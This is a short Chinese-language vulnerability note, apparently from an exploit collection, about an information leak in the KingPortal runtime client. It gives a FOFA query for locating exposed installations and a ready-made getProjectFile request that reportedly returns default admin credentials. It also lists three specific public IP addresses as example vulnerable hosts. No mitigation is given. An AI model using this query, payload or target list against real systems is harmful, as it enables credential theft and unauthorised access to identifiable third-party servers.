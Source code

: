 # KingPortal 运行系统客户端存在信息泄露

```
FOFA:
"KingPortal" && title=="KingPortal 运行系统客户端"
```

## 介绍

KingPortal 运行系统客户端存在信息泄露漏洞, 当访问特定 API 的请求时, 会返回对应的系统安装默认账号密码

## 演示

```
http://ip//getProjectFile?projectInfo={%22name%22:%22externalconfig%22,%22type%22:5}&_=1708943932003 
```

![image-20240226194027202](./assets/image-20240226194027202.png)

```
示例
http://36.108.172.248:15006/
http://36.108.187.38:50000/
http://123.57.46.107:10084/
```

